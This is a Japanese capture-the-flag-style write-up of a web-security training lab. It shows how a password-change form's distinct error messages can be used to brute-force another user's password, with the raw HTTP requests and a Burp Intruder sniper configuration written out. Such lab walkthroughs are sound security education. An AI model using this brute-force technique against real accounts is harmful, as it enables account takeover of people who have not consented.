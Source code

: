 パスワード変更機能に脆弱性があるようなので一度自身の認証情報でアクセスしてみます。

色々試していると以下がわかりました。

- Current Passwordパラメータ自体を消してpasswordの変更は出来ない
- Current Passwordを間違った値、New password, Confirm new passwordに同じ値を入れると強制的にログアウトを喰らい、accountにロックがかかる
- Current Passwordに正しい値をいれ、New Password, Confirm new Passwordに別の値を入れると、`New passwords do not match` というエラーがでて、ログアウトされない。
- usernameパラメータを別のアカウントの名前にして適当な値を入れてみると`Current password is incorrect`
- Current Passwordに間違った値、New password, Confirm new passwordに間違った値を入れると`Current password is incorrect` でログアウトはされない
- 

なるほど。

パスワード変更の際のリクエストは以下です。

```
POST /my-account/change-password HTTP/2
Host: 0a4800720370fdd283573ce200580075.web-security-academy.net
Cookie: session=s1r6ETUSXsD9M35eJy4xXNdLZFOt0iEq; session=LY05nHV6iXK4Nhb4umewx044CzOyQB65
<redacted>

username=wiener&current-password=a&new-password-1=a&new-password-2=a
```

判明したことからパスワードチェンジの際にNew password, Confirm new passwordでそれぞれ別の値をいれ、`New passwords do not match` がでた場合それが正しいパスワードであることが判明しそうです。

### exploit

1. パスワード変更のリクエスをintruderに送る
    1. Positionsはusernameをターゲットにする
        
        ```
        PPOST /my-account/change-password HTTP/2
        Host: 0a4800720370fdd283573ce200580075.web-security-academy.net
        Cookie: session=wu57zt598O72YMbSnqjeGpAwHrrQ0Diz; session=Doyw5TmuReHMlqVYQKNdfnsGYgMjS6YD
        <redacted>
        
        username=carlos&current-password=§a§&new-password-1=v&new-password-2=b
        ```
        
    2. Attack typeをsniperにし、payloadにpassword listを指定する。
2. ぶん回す。

レスポンス内に、New passwords do not matchがある時のパスワードがcarlosのパスワードです。

あとは認証情報を使ってアクセスすれば終わりです。

## ****Broken brute-force protection, multiple credentials per request****

---

coming soon…..

## ****2FA bypass using a brute-force attack****

---

coming soon
